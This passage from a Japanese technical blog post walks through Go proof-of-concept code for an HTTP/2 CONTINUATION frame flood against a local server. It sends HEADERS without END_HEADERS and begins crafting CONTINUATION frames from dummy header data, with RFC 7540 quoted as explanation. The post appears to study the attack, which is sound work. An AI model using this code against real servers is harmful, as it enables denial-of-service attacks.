 ``` go
		},
		http2.Setting{
			ID:  http2.SettingHeaderTableSize,
			Val: 4096,
		},
	)
}
```

### Headers Frame

続いて Headers Frame を投げつけます。

いきなり CONTINUATION とか無理なん？と思われるかもしれませんが, [rfc7540 #6.10](https://datatracker.ietf.org/doc/rfc7540/) に記載があるように、CONTINUATION の前には END_HEADERS のセットされてない HEADERS などが必要なんです。

> A CONTINUATION frame MUST be preceded by a HEADERS, PUSH_PROMISE or CONTINUATION frame without the END_HEADERS flag set. A recipient that observes violation of this rule MUST respond with a connection error (Section 5.4.1) of type PROTOCOL_ERROR.

``` go
func customHttp2Call(conn net.Conn) {
	// ...

	hbuf := bytes.NewBuffer([]byte{})
	henc := hpack.NewEncoder(hbuf)

	henc.WriteField(hpack.HeaderField{Name: ":authority", Value: "localhost:8080"})
	henc.WriteField(hpack.HeaderField{Name: ":method", Value: "GET"})
	henc.WriteField(hpack.HeaderField{Name: ":path", Value: "/"})
	henc.WriteField(hpack.HeaderField{Name: ":scheme", Value: "https"})

	// 今回は決めうちで stream 1 を使っている。
	err = framer.WriteHeaders(http2.HeadersFrameParam{
		StreamID:      1,
		BlockFragment: hbuf.Bytes(),
		EndHeaders: false,
	})
}
```

CONTINUATION Frame をこの後に続ける予定なので、EndHeaders フィールドは false にしておきます。

順調です。

### Continuation Frame

続いて本命の Continuation Frame を投げつけます。

``` go
var (
	//go:embed dummy-key
	dummyKey string

	//go:embed dummy-value
	dummyValue string
)

func customHttp2Call(conn net.Conn) {
	// ...

	hbuf.Reset()
	henc = hpack.NewEncoder(hbuf)
	henc.WriteField(hpack.HeaderField{Name: dummyKey, Value: dummyValue})
	henc.WriteField(hpack.HeaderField{Name: dummyValue, Value: dummyKey}) // 逆にしたのも送る。
	continuationHeaders := hbuf.Bytes()

```